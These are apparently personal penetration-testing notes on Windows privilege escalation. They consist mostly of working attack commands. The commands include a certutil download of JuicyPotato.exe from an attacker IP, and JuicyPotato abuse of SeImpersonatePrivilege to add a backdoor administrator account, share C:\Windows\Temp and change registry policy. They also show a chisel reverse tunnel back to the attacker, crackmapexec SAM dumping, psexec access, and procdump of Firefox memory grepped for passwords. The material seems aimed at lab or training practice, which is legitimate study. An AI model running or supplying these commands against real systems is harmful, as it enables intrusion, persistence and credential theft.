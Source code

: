 # Windows Machine {-}

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible privilege escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base

    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```bash
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. `python -m http.server`

1. `certutil.exe -f`

## Check command history {-}

```powershell
dir/s *history.txt
```

## Check local open ports {-}

```powershell
netstat -nat
```

Usefull to know if we have to do port forwarding.

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```powershell
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```powershell
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in `C:\Windows\Temp`
    - Transfer JuicyPotato to Windows Machine

        ```powershell
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```

    - Create user looping

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```

    - Update local account policy to gain access to the system

        ```powershell
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```powershell
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```

        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned

            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```

    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```

## System enumeration with PowerUp for Privesc {-}

**PowerUp** is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration
testers during all phases of an assessment.

[PowerSploit github](https://github.com/PowerShellMafia/PowerSploit)

1. Open the script

    ```bash
    cd PowerSploit/Privesc
    vi PowerUp.ps1
    ```

1. Set an automatic execution of the desired Alias

    - Write `Invoke-AllChecks` the end of the file

1. Send to the victim machine

1. Check the result

    ```r
        knitr::include_graphics("images/sys-enum-powerup.png")
    ```

In this example we can see that the UsoSvc is a Modifiable Service with an Invoke-ServiceAbuse function.

Feel free now to check for an exploit on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
Payloads for Windows and Active Directory are listed in the [Methodology and Resource Folder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
where you can find a **Windows - Privilege Escalation.md**.

Search for UsoSvc to find what to do.

## Checking running processes {-}

On windows, with a powershell, you can check the running processes with the `get-process` command.
If there is processes running that you want to focuse, juste use the `-name` argument.

```bash
get-process -name firefox
```

You have the possibility with a tool like `procdump.exe`, to dump process memory and then transfer the dump to your
attacker machine.

```bash
.\procdump.exe -ma 1553 firefox.dmp
```

Transfer the **.dmp** file to the attacker machine and check the content with `strings -el firefox.dmp | grep password`
